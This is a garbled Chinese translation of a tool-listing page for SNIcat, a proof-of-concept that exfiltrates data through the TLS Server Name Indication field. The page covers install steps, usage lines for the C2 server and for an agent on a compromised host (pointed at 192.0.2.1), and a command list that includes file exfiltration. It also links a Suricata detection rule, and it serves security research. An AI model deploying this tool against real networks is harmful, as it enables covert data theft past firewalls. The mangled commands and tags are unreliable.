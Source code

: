 # SNIcat:服务器名称指示连接器

> 原文：<https://kalilinuxtutorials.com/snicat/>

[![SNIcat : Server Name Indication Concatenator](img/66f40b013a13299458a790b356cfdfb1.png "SNIcat : Server Name Indication Concatenator")](https://1.bp.blogspot.com/-pYNagw_4PfY/X1XGT9Ayo0I/AAAAAAAAHe0/GVr5EGMloyI5c2VMOSUYiytPMKQdPZS3ACLcBGAsYHQ/s728/SNIcat%25281%2529.png)

**SNIcat** 是一款概念验证工具，利用隐蔽通道方法通过以下方式执行数据渗透。*服务器名称指示*，一个 **TLS 客户端 Hello 扩展**。

该工具由一个驻留在被入侵的内部主机上的**代理**和一个控制代理并收集泄露数据的**命令&控制**服务器组成。

**背景&场景**

我们发现了一种新的隐蔽的数据渗透方法，它专门绕过安全边界解决方案，如 web 代理、下一代防火墙(NGFW)和 TLS 拦截和检查的专用解决方案。我们的测试验证了这是一个普遍存在的问题，它会影响不同类型的安全解决方案以及来自不同供应商的解决方案。我们针对 F5 Networks、Palo Alto Networks 和 Fortinet 的产品成功测试了我们的技术，并推测许多其他供应商也容易受到影响。

通过使用我们的渗透方法 SNIcat，我们发现我们可以绕过执行 TLS 检查的安全边界解决方案，即使我们使用的命令和控制(C2)域被安全解决方案本身内置的通用信誉和威胁防御功能阻止。简而言之，我们发现旨在保护用户的解决方案给他们带来了新的漏洞。

我们还提供了一个 [Suricata 签名](https://github.com/mnemonic-no/SNIcat/blob/master/signatures/snicat.rules)来检测这个特定的工具。

**安装**

*   **克隆存储库:**

**https://github.com/mnemonic-no/SNIcat.git**

*   **安装依赖项:**

**pip 3 install-r requirements . txt–用户**

**初始设置**

*   **C2**

从公开信任的 CA 获取通配符证书和密钥。这表示好证书和好证书密钥。利用自签名证书和密钥(不在任何信任存储中)作为 BAD_CERT 和 BAD_CERT_KEY。

**(*)用法:**' python 3 sni cat _ C2 . py<listening_port><good_cert><good_cert_key><bad_cert><bad_cert_key>log = { on | off } '</bad_cert_key></bad_cert></good_cert_key></good_cert></listening_port>
<listening_port><good_cert><good_cert_key><bad_cert><bad_cert_key>**(*)示例:**' python 3 sni cat _ C2 _ final . py 443 certs/good . PEM certs/good . key certs/SSL-cert-snake oil . PEM log = 1</bad_cert_key></bad_cert></good_cert_key></good_cert></listening_port>

*   **代理人**

**(*)用法:**' python 3 snicat _ agent . py<c2_server_ip><c2_server_port>log = { on | off } '</c2_server_port></c2_server_ip>
<c2_server_ip><c2_server_port>**(*)举例:**' python 3 snicat _ agent . py 192.0.2.1 443 log = off '</c2_server_port></c2_server_ip>

**用途**

C2 可用命令

**LIST—**显示当前文件夹中的所有内容
**LS—**仅显示当前文件夹中的文件
**SIZE—**显示当前文件夹中文件的大小
**LD—**显示当前文件夹中的每个目录
**CB—**向下移动到根树文件夹中—类似于“cd ..”
**CD<folder-id>–</folder-id>**<folder-id>上移指定文件夹</folder-id>
<folder-id>**EX<file-id>–</file-id>**<file-id>exculate 指定文件</file-id></folder-id>
<folder-id><file-id>**ALIVE—**check ALIVE/dead agent</file-id>
<folder-id><file-id>**EXIT—**退出 C2 服务器</file-id></folder-id></folder-id>

[**Download**](https://github.com/mnemonic-no/SNIcat)